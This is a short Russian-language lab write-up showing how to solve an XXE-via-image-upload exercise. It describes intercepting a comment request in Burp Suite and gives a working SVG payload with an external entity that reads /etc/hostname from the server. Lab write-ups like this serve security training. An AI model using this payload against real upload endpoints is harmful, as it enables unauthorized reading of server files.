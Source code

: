 ## Lab: Exploiting XXE via image file upload
1) Переходим на сайт задания и выбираем любую статью.
2) Заполняем комментарий(не важно как) и отправляем. Перехватим запрос через Burp Suite.
3) В значение поля для картинки вставляем:
```php
  <?xml version="1.0" standalone="yes"?>
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
  <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
  </svg>
```
![](https://github.com/NaylyaZh99/hacking/blob/master/lab%20XXE/task4/image.png)
4) Возвращаемся на сайт и просматриваем загруженный нами аватар:
![](https://github.com/NaylyaZh99/hacking/blob/master/lab%20XXE/task4/image1.png)

Готово!
